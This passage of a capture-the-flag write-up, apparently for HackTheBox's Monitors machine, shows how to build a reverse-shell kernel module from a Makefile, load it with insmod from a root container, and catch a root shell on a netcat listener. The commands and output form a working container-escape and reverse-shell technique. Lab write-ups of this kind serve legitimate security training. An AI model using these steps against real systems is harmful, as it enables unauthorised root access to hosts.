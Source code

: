 ```Makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/4.15.0-142-generic/build M=/root modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=/root clean
```

Go ahead and compile your module.

```sh
root@55f9268f69df:~# make
make
make -C /lib/modules/4.15.0-142-generic/build M=/root modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
  CC [M]  /root/reverse-shell.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/reverse-shell.mod.o
  LD [M]  /root/reverse-shell.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
```

Now setup your listener, and trigger the kernel module / reverse shell.

```sh
root@55f9268f69df:~# insmod reverse-shell.ko
insmod reverse-shell.ko
```

And we've owned the system.

```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ nc -nvlp 4444               
listening on [any] 4444 ...
connect to [10.10.14.199] from (UNKNOWN) [10.129.232.111] 35740
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# whoami
whoami
root
```